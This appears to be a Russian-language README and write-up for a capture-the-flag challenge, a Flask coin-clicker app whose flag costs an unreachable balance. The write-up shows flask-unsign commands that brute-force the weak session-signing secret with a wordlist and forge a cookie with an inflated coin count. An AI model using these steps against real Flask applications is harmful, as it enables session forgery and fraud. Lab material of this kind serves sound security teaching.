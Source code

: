 # CoinFarmer

Время тапать кнопку! Получай коины и трать их на лучшие книги по изучению Python

## Описание задания
Приложение на Flask. На главной странице доступна кнопка для фарма коинов - при ее нажатии к балансу юзера прибавляется +1
Коины тратятся в магазине, нужно купить флаг за 99999999999999999999. Два варианта решения - либо кликать до пенсии, либо хакнуть приложение

## Deploy
При необходимости отредактируй флаг в /app/products.json (в объекте products[4], с id=5)

####  Далее нужно собрать образ
```
docker build -t coinfarmer .
```

#### Запуск контейнера
```
docker run -p 5000:5000 coinfarmer
```
## WriteUp

Данные о балансе хранятся в сессии пользователя. Чтобы это понять - надо декодировать и изучить сессионные Cookies, они будут содержать объект вида:
```
{'coins':0, 'products':[]}
```
Соответвенно при тапе значение меняется. Данное значение как раз проверяется при покупке товаров.

```
@app.route('/buy/<id>', methods=["GET"])
def buy(id):
.........    
    current_balance = session["coins"] 
    
    if current_balance < product["price"]:
        return render_template("no_money.html", product=product)
......
    session["coins"] = current_balance - product["price"]
    session["products"].append(product)
```

Уязвимость приложения заключается в слабом секрете, который используется для подписи Cookie. При наличии данного секрета можно подписывать самостоятельно Cookie с любыми изменениями. Для решения задачи можно использовать утилиту flask-unsign.
### Шаг 1
Установить модуль flask-unsign
```
pip3 install flask-unsign
```

Далее нужно сбрутить секрет для подписи
```
python3 -m flask_unsign --wordlist rockyou.txt --unsign --cookie "session-cooike-here" --no-literal-eval
```

### Шаг 2
Отредактировать cookie, подписать и применить ее в своем браузере
```
python3 -m flask_unsign --sign --cookie "{'coins':199999999999999999999}" --secret "flask_secret" --legacy
```

И купить флаг

